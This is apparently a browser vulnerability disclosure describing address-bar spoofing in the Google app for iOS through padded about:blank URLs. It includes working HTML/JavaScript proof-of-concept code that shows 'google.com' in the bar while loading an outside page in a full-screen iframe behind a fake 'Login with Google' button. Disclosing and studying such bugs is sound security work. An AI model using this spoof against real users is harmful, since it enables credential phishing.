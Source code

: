 # Title: Google App iOS Full Address Bar Spoof

## Description: 
Using the Google app for iOS when navigating to a site from the search or entering the URL manually the address bar only shows the origin of it, this is normally when the scheme is http/https but if we open a new tab with location of about:blank the address bar now doesn't have an origin it will display the full URL, and the issue is also arises that if the URL is too long the UI will show the end of it, for example opening about:blank#(multiple _spaces) google.com the address bar display (multiple _spaces) google.com and hides the about:blank# part making the address bar spoofed and a user thinks it's on google.com

POC
When creating a POC I encountered a problem which when opening a URL with about:blank#test the app immediately closed the tab and got an error but I found a solution to this problem by creating an about:blank page then from there creating a second about:blank#test which didn't get any errors, also the app doesn't have popup blocking protection making the attack without any user interaction.

Online POC open in Google app iOS: https://REDACTED

Video POC: Bug-001.mp4

POC Code

<!DOCTYPE html>
<html lang="en">
<head>
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script>

var v='';
        function poc() {
// Opening first about:blank page
v=window.open('about:blank');

// Wait a little and open a second about:blank page with a hash fragment
setTimeout(()=>{
v.document.body.innerHTML=`
<img src=x onerror='var c=window.open("about:blank#.         google.com      \u2b1e");
c.document.body.innerHTML=&#x27;<iframe src="https://pwr.wtf/arc/5.html" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;"></iframe>&#x27;'>
`
},10);
        }
poc();
    </script>
</head>
<body>
        <h1>
        <center><br><br><br><button style=font-size:30px onclick=poc()>Login with Google</button></center>
        </h1>
</body>
</html>
Mitigation
When the URL is about:blank show an empty address bar or show the start of URL not end of it

Attack scenario
An attacker with this vulnerability can deceive users into thinking they are on a legitimate site and enter their credentials. As a browser vulnerability, address bar spoofing allows attackers to manipulate the URL displayed in a browser's address bar, making a fraudulent site appear legitimate. This can lead users to unknowingly share sensitive information, download malicious software, or conduct financial transactions on compromised sites, posing a serious security risk and undermining user trust in the browser’s ability to verify site authenticity.

## Author: Renwa

## Affected Browser(s): Google iOS

## Severity: High

## Spoof Type: non-http scheme

## References: N/A

## POC Photo/Video: `bug-001.mp4`

## Discovery Date: 2024-10-31

